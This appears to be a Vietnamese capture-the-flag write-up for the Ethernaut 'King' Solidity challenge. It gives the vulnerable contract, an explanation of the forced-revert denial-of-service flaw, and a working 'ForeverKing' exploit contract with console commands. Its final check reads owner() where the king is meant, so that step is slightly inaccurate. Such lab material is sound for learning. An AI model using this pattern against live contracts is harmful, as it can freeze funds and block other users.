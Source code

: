 # Level 9: King
##  ★★★☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
## Phân tích
- Trong contract, với nhiệm vụ là chiếm quyền king vĩnh viễn, nhưng khi ta nhìn vào fallback function ở đây, khi có ai đó send transaction thì king sẽ thay đổi owner ``king=msg.sender`` và contract sẽ tranfer ngược lại value đó.
```solidity
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
 
```
- Mấu chốt ở đây là ta cần làm hàm fallback function này luôn bị revert(),vì transaction sẽ bị chuyển ngược lại ``king`` nên ta cần viết một contract mà không có fallback function để receive-> thế là transaction luôn bị revert()


## Solution
**Target**: Chiếm quyền King vĩnh viễn và không cho ai chiếm quyền của mình nữa.
- Check prize hiện tại và thấy prize là 1000000000000000000 wei hay 1 ether
```javascript
await contract.prize().then(x => x.toString());
> 1000000000000000000

```

- Compile và deploy contract này trên remix, sau đó gọi hàm ``claimKingship()`` và send value 1 ether để đáp ứng ``require``:  

- Vì prize là 1 ether nên ta sẽ cần send 1 ether
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.7.3;



contract ForeverKing {
    function claimKingship(address payable _to) public payable {
        (bool sent, ) = _to.call{value: msg.value}("");
        require(sent, "Failed to send value!");
    }
}
```

- Check lại owner và thử send transaction lại để check owner có bị thay đổi không -> nếu owner không thay đổi thì bạn đã hoàn thành challenge này =))
```javascript
await contract.owner()

```
**Submit** -> Done



